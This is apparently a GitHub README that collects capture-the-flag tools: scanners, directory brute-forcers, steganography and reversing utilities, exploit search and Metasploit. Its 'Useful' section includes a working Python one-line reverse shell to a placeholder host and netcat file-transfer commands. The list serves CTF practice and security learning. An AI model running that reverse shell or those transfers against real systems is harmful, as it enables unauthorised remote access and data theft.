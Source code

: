 # CTF-tools
Collection of useful tools for CTFs.


## Categories
  - [Web](#web)
  - [Crypto](#crypto)
  - [Steganography](#stego)
  - [Binary/Reverse](#binary/reverse)
  - [Other](#other)
  - [Useful](#useful)
  - [to update]

---

## Web

* nmap
```
Example usage : sudo nmap -sS -A -T4 <ip_target> -oN <name_output> -vv
```
* gobuster
```
Example usage for directory/file enum :
                gobuster dir -u <ip_target> --wordlist <path_to_wordlist> -x <extensions>
  where:  * path_to_wordlist can be something like "/usr/share/wordlists/<wordlist>"
          * extensions like php, txt, js, cgi, sh, ...
```
* dirb
* curl
* nikto
```
Example usage: nikto -h <ip_target>
```
* wpscan
* wget 
```
Example usage: wget <url>
```

---

## Crypto

* [CyberChef](https://gchq.github.io/CyberChef/)

---

## Steganography

* steghide
```
Example usage: steghide <command> <file>
  where command can be:   > info
                          > extract 
                          > embed 
```
* [Stegosolve](http://www.caesum.com/handbook/Stegsolve.jar)

---

## Binary/Reverse

* checksec
* strings
* ltrace
* strace
* frida
* gdb / gdb-peda
* hexdump (-C option very useful)
* objdump
* apktool
* Jadx -- Java decompiler 

---

## Other

* nc -- TCP/IP swiss army knife
* linpeas.sh -- for Linux Privesc
* sudo -l -- to get which files I can run with sudo
* searchsploit -- search through Exploit db archive
```
Example usage: searchsploit OpenSSH 7.2p2
               searchsploit -p 46635  -- it returns the URL of the CVE in exploit db
```
* msfconsole -- the god tool for exploitation


---



## Useful

* sending a file using nc:
```
    client side : nc -lvp <port> > <file>
    server side : nc <ip_server> <port_server> < <file>
```
* sending a file using nc + wget:
```
    client side : nc -lvp <port> < <file>
    server side : wget <ip_server>:<port_server>/<file>

!! [NOTE: protocol will continue after transmission of file (maybe because client side does not receive CRLF sequence). So after a while, just press CTRL+c et voit-là] 
```
* to convert a python script from v.2 to v.3
```
    python3 -m lib2to3 <script>.py -w
```
* connect to server pop3 (port 110) using telnet:
```
    telnet <ip> 110
```
* reverse shell with one line only, using python3:
```
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* run a simple python3 server:
```
    python -m http.server
```
* create a generic ssl/tls client which establishes a connection to a remote server speaking ssl/tls.
```
Example:    openssl s_client -connect <ip_address>:<port>
    If all it is ok, paste the password and it’s done.
```


---




# Contributors

- Francesco Varotto - [@frarotto](https://github.com/francevarotz98/)
- Massimiliano Belluomini - [@massibelluomini](https://github.com/massibelluomini)
